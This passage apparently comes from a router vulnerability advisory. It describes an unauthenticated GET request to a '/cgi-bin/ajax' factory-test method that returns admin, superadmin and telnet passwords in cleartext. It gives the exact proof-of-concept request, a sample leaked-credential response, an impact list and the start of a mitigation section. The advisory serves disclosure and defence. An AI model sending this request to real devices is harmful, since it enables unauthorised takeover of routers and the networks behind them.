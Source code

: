 ### 1.3 Attack Vector

A remote, unauthenticated attacker can simply issue a crafted GET request to the `ajax` endpoint. No valid session token is required:

```
GET /cgi-bin/ajax?ajaxmethod=get_factorytest_info&tkagent=Mozilla/5.0%20(Windows%20NT%2010.0;%20Win64;%20x64)%20AppleWebKit/537.36%20(KHTML,%20like%20Gecko)%20Chrome/128.0.6613.120%20Safari/537.36 HTTP/1.1
Host: <router-IP>
Connection: close
```

*On success, the response body includes cleartext values for:*

* **Admin password**
* **Super-Admin password**
* **Telnet credentials**

This allows unrestricted takeover of the device’s administrative interface and telnet service.

### 1.4 Proof of Concept (PoC)

```http
GET /cgi-bin/ajax?ajaxmethod=get_factorytest_info&tkagent=Mozilla/5.0%20(Windows%20NT%2010.0;%20Win64;%20x64)%20AppleWebKit/537.36%20(KHTML,%20like%20Gecko)%20Chrome/128.0.6613.120%20Safari/537.36 HTTP/1.1
Host: 192.168.2.1
Connection: close
```

* **Expected Response (truncated)**:

  ```json
  {
    "admin_username": "admin",
    "admin_password": "P@ssw0rd123",
    "superadmin_username": "superadmin",
    "superadmin_password": "SuperP@ss456",
    "telnet_username": "root",
    "telnet_password": "TelnetP@ss789"
  }
  ```

### 1.5 Impact

* Full administrative takeover (both web UI and Telnet).
* Credentials are disclosed in plaintext without any authentication check.
* Attackers can modify settings, deploy persistent backdoors, pivot within the network, or brick the device.

### 1.6 Mitigation

1. **Immediate Mitigation (on deployed devices):**

   * **Network-level filter:** Block external access to `/cgi-bin/ajax` via firewall or access-control policies.
   * **Disable Telnet Service:** If telnet is not required, disable it in the router settings.
